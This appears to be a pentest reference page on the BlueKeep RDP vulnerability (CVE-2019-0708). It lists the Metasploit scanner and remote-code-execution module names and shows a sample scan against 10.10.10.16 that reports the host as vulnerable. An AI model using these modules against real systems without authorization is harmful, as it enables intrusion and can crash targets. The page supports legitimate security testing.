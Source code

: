 ```yaml
---
title : "CVE-2019-0708"
# pre : ' '
description : "Remote Desktop Services Remote Code Execution Vulnerability."
date : 2020-03-23T12:07:45+01:00
# hidden : true
# draft : true
weight : 140
# tags : ['']
---
```


---

## BlueKeep RDP Remote Windows Kernel Use After Free

The exploit will cause bluescreen by default.

### Scanner

```plain
msf5 > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

### Exploit

```plain
msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

## Examples

### Scanner example

```plain
msf5 > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf5 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set rhosts 10.10.10.16
msf5 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > run

[+] 10.10.10.16:3389      - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 10.10.10.16:3389      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## URL List

- [nvd.gist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-0708)
- [Pentest-tools.com](https://pentest-tools.com/blog/bluekeep-exploit-metasploit/)
